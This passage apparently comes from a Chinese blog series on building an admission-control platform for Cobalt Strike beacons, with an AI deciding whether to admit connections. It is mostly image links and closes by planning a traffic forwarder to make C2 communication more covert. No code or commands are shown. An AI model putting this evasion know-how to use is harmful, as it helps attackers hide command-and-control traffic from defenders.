

在send\_permission\_card中调用





现在我们让ai决策 直接准入或者拒绝 这里的实现是在卡片中添加几个变量

send\_permission\_card中给变量赋值





# 思考

目前，我们仅实现了对接入平台的“准入控制”功能，而后续的通信仍然是直连teamserver 这使得我们的整个准入平台显得没什么意义

那么，有没有办法将所有流量都引入可信域内，再进行统一转发和处理呢？

由于CS的Malleable C2 并无法实现这种需求，因此我们将在下一篇文章中，实现一个可控的流量转发器，以进一步增强通信链路的隐蔽性

当前



目标


